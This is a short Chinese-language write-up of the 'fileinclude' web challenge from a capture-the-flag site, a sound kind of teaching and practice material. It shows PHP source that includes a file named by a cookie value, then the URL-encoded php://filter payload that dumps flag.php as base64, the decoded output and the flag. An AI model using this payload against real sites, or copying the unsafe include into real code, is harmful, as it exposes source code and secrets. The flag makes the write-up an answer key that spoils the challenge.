

# fileinclude

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4c0925be-17ac-11ed-9827-fa163e4fa633&task_category_id=3)

这题我想复杂了……

进来就几个大字，告诉我们flag在flag.php。检查元素发现了源代码。



```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

我最开始没搞懂为什么要把display_errors打开。简单介绍一下几个函数，因为跟这次挑战毫无关系，了解一下得了。

- ### ini_get
  > 获取一个配置选项的值
- ### ini_set
  > 设置选项的值
- ### error_reporting
  > 设置错误报告的级别

然后往下看。$lan是cookie“language“的值。$_COOKIE是php里存储cookie的全局数组。setcookie设置一个cookie的值。然后就没了？我们只需要设置cookie为想要读取的文件名就可以进入else分支，然后包含文件。那还是php伪协议，甚至是同一个。用bp可以很简单地增加cookie，repeater里面的inspector随便加。cookie值如下：

- php%3a%2f%2ffilter%2fread%3dconvert.base64-encode%2fresource%3dflag

后面帮我们补上了后缀名所以直接flag就行了。出来了一串base64。

- PD9waHANCiRmbGFnPSJjeWJlcnBlYWNle2Q3YjdkNzdlNTE2YzE1ZTQ3ODU1NTdiMTRiMWU5YjJkfSI7DQo/Pg==

解码就得到了flag。

- ### Flag
  > cyberpeace{d7b7d77e516c15e4785557b14b1e9b2d}